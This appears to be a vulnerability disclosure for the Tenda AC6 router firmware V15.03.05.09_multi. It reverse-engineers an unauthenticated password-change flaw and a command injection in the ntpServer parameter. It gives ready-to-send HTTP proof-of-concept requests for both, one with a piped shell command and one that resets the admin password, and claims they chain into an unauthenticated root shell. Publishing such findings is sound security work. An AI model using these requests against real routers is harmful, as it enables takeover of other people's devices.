 # Tenda AC6 V15.03.05.09_multi pre-auth Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version

![image-20220215174142153](img/image-20220215174142153.png)

Figure 1 shows the latest firmware Ba of the router

## 2.Vulnerability details

#### 2.1Arbitrary password modification vulnerability

![image-20220215175103625](img/image-20220215175103625.png)

![image-20220215175441246](img/image-20220215175441246.png)

![image-20220215175631393](img/image-20220215175631393.png)

Firstly, through reverse analysis, we can find that there is a vulnerability of arbitrary password modification in the interface.The program passes the contents obtained in the loginpwd parameter directly to V16, and then directly changes the password to the login password through the setvalue() function. In this way, we can change the management password without authorization.

#### 2.2Command injection vulnerability

![image-20220228162806422](img/image-20220228162806422.png)

The program first passes the contents obtained from the ntpserver parameter to SRC, then sets the SRC value and passes the return value to V1. Finally, the program takes V1 as a parameter through the comitcfm function, which finally causes a command injection vulnerability.

## 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.05.09_multi
2. Attack with the following  overflow POC attacks

```
POST /goform/SetSysTimeCfg HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 69
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/system_time.html?random=0.9657222523817097&
Cookie: password=e10adc3949ba59abbe56e057f20f883effo1qw

timePeriod=86400&ntpServer=time.windows.com|ls > /tmp/456&timeZone=20
```

The reproduction results are as follows:

![image-20220228162641056](img/image-20220228162641056.png)

![image-20220228162703168](img/image-20220228162703168.png)

Figure 2 POC attack effect

3.Unauthorized password rewriting POC（The password here is changed to 123456）

```
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 116
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/index.html

ssid=Tenda_AC6_rencvn&wrlPassword=rencvn667&power=high&timeZone=%2B08%3A00&loginPwd=e10adc3949ba59abbe56e057f20f883e
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell without authorization

![image-20220215180128600](img/image-20220215180128600.png)


